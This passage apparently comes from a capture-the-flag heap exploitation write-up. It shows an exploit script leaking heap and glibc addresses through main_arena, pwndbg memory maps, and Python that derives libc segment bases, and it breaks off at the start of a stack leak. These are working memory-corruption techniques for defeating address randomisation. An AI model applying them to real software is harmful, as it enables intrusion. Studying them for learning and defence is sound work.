 We will use this _"rename and chat"_ pattern few more times through this write-up!

## Leak the glibc

Rerun the exploit, reattach GDB:

```
$ ./exploit.py
heap_base:  0x55cb8b378000
main_arena_ptr 0x55cb8b379940
main_arena:  0x7f138961ac80
(...)
```

With known `main_arena`, we can calculate all other glibc segments. We look at them
in the process map:

```
pwndbg> vmmap
    0x55cb8b378000     0x55cb8b399000 rw-p    21000      0 [heap]
    0x7f1389428000     0x7f13895bd000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f13895bd000     0x7f1389615000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f138961a000     0x7f138961c000 rw-p     2000 219000 /usr/lib/x86_64-linux-gnu/libc.so.6

```

... and calculate all the offsets using deltas between that and `main_arena`:

```python
# Calculate other interesting glibc addresses
glibc_code = main_arena + 0x7f1389428000 - 0x7f138961ac80
print("glibc_code: ", hex(glibc_code))
glibc_rodata = main_arena + 0x7f13895bd000 - 0x7f138961ac80
print("glibc_rodata: ", hex(glibc_rodata))
glibc_rwdata = main_arena + 0x7f138961a000 - 0x7f138961ac80
print("glibc_rwdata: ", hex(glibc_rwdata))
```

## Leak the stack

Rerun the exploit, reattach GDB:

```
$ ./exploit.py
heap_base:  0x5589cc214000
main_arena_ptr 0x5589cc215940
main_arena:  0x7f0948a1ac80
glibc_code:  0x7f0948828000
glibc_rodata:  0x7f09489bd000
glibc_rwdata:  0x7f0948a1a000
(...)

pwndbg> arenas
  arena type    arena address    heap address       map start         map end    perm    size    offset    file
------------  ---------------  --------------  --------------  --------------  ------  ------  --------  ------
  main_arena   0x7f0948a1ac80  0x5589cc214000  0x5589cc214000  0x5589cc235000    rw-p   21000         0  [heap]

pwndbg> vmmap
    0x5589cc214000     0x5589cc235000 rw-p    21000      0 [heap]
    0x7f0948800000     0x7f0948828000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f0948828000     0x7f09489bd000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f09489bd000     0x7f0948a15000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f0948a15000     0x7f0948a16000 ---p     1000 215000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f0948a16000     0x7f0948a1a000 r--p     4000 215000 /usr/lib/x86_64-linux-gnu/libc.so.6
```